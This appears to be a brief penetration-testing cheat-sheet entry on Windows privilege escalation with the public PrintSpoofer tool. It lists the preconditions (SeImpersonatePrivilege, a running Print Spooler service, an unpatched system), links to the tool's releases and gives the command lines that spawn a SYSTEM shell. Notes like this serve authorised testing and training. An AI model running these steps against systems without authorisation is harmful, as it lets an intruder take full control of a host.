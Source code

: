  Printspoofer - Privilege Escalation via Print Spooler Impersonation

### Requirements

- Local user with:
  - `SeImpersonatePrivilege`
  - Access to a system with the **Print Spooler service running**
- Windows 10 or Server 2016/2019 (unpatched)
### Exploitation Steps

1. **Download PrintSpoofer**
   - [Download from GitHub Releases](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)
   - Choose the correct binary: `PrintSpoofer.exe` (x64 or x86)
1. **Execute with SYSTEM impersonation**
   ```bash
   ./PrintSpoofer.exe -i -c cmd
   # OR
   PrintSpoofer64.exe -i -c cmd
   ```


